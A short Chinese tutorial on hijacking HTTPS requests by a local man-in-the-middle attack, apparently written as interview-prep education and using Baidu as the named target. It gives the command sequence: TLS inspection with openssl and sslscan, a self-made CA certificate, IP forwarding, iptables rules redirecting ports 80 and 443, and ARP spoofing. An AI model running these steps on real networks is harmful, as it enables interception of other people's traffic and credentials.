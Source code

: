 ### 如何劫持https的请求？

很多人在google上搜索“前端面试 + https详解”，把答案倒背如流，但是问到如何劫持https请求的时候就一脸懵逼，是因为还是停留在https理论性阶段。
想告诉大家的是，就算是https，也不是绝对的安全，以下提供一个本地劫持https请求的简单思路。
模拟中间人攻击，以百度为例：

- 先用OpenSSL查看下证书，直接调用openssl库识别目标服务器支持的SSL/TLS cipher suite
```
    openssl s_client -connect www.baidu.com:443
```
- 用sslcan识别ssl配置错误，过期协议，过时cipher suite和hash算法
```
    sslscan -tlsall www.baidu.com:443
```
- 分析证书详细数据
```
    sslscan -show-certificate --no-ciphersuites www.baidu.com:443
```
- 生成一个证书
```
    openssl req -new -x509 -days 1096 -key ca.key -out ca.crt
```
- 开启路由功能
```
    sysctl -w net.ipv4.ip_forward=1
```
- 写转发规则，将80、443端口进行转发给8080和8443端口
```
    iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080 
    iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
```
最后使用arpspoof进行arp欺骗